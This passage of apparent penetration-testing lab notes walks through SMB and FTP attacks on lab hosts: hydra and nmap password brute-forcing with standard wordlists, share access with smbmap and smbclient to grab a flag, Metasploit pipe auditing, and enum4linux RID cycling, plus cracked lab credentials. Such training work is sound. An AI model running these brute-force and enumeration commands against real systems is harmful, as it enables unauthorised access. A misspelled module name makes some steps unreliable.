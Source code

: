 ```bash
msf5> run
msf5> exit

# 2. What is the password of user “admin” required to access share “admin”?
#    Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt
john@kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.235.130.3 smb

# 3. Which share is read only? Use smbmap with credentials obtained in question 2.
john@kali> smbmap -H 192.235.130.3 -u admin -p password1

# 4. Is share “jane” browseable? Use credentials obtained from the 1st question.
john@kali> smbmap -H 192.235.130.3 -u jane -p abc123

# 5. Fetch the flag from share “admin”
john@kali> smbclient -U admin \\\\192.235.130.3\\admin
smb> cd hidden
smb> get flag.tar.gz
smb> exit
john@kali> tar -xvf flag.tar.gz
john@kali> cat flag

# 6. List the named pipes available over SMB on the samba server?
#    Use pipe_auditor metasploit module with credentials obtained from question 2.
john@kali> msfconsole
msf5> use scanner/smb/pip_auditor
msf5> set rhosts 192.235.130.3
msf5> set smbuser admin
msf5> set smbpass password1
msf5> run
msf5> exit

# 7. List sid of Unix users shawn, jane, nancy and admin respectively
#    by performing RID cycling  using enum4Linux with credentials obtained in question 2.
john@kali> enum4linux -u admin -p password1 -r 192.235.130.3
```

Credentials :

```
jane:abc123
admin:password1
```

### FTP

#### Basics

```bash
john@kali> ip a
john@kali> ping 192.152.30.3
john@kali> nmap 192.152.30.3

# 1. What is the version of FTP server?
john@kali> nmap 192.152.30.3 -p 21 -sV

# 2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt 
#    and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
#    to check if any of these credentials work on the system. List all found credentials.
john@kali> hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.152.20.3 ftp

# 3. Find the password of user “sysadmin” using nmap script.
john@kali> echo 'sysadmin' > user.txt
john@kali> nmap 192.152.20.3 --script ftp-brute -p 21 --script-args passdb='/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt',userdb='user.txt'
```